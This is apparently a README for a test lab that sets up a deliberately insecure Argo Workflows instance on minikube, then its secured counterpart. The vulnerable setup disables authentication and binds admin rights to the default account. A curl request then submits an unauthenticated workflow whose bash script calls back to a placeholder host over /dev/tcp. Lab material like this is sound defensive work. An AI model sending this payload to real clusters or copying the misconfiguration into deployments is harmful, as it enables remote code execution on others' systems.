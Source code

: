 # setup requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# vulnerable instance
## install argo workflows
```bash
kubectl create namespace argo
kubectl apply -n argo -f https://github.com/argoproj/argo-workflows/releases/download/v3.5.5/install.yaml
```
## remove authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=server"]}]'
```

## allow Argo to interact with the resources in your Kubernetes cluster with admin-level privileges
```bash
kubectl create rolebinding argo-default-admin --clusterrole=admin --serviceaccount=argo:default -n argo
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Validate with OOB
Replace `IP/PORT` with your IP and Port.
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"ubuntu:22.04","command":["bash"],"source":"echo \"HEAD / HTTP/1.0\" >/dev/tcp/IP/PORT\n"}}]}}}' \
  --insecure
```
# secure instance
after setting up a vulnerable version, change the authentication mode to client.
## change authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=client"]}]'
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Check that authentication is enabled
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"ubuntu:22.04","command":["bash"],"source":"echo \"HEAD / HTTP/1.0\" >/dev/tcp/IP/PORT\n"}}]}}}' \
  --insecure
```
it will response with `{"code":16,"message":"token not valid. see https://argo-workflows.readthedocs.io/en/release-3.5/faq/"}` which prove us that there is a authentication layer.
